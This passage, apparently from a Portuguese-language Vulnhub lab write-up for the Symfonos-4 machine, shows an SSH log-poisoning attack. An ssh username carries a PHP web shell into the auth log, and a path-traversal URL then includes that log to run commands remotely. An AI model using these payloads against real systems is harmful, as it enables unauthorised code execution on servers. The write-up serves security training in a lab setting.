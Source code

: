 ```bash
ssh '<?php system($_GET['cmd']); ?>'@192.168.150.109
```

![](/assets/img/Vulnhub/Symfonos-4/ssh-log-poison.png)


* Agora com o log de autenticacao envenenado conseguimos executar comando remotamente via url

```
http://192.168.150.109/sea.php?file=.../../../../../../../var/log/auth&cmd=whoami
```

![](/assets/img/Vulnhub/Symfonos-4/rce.png)
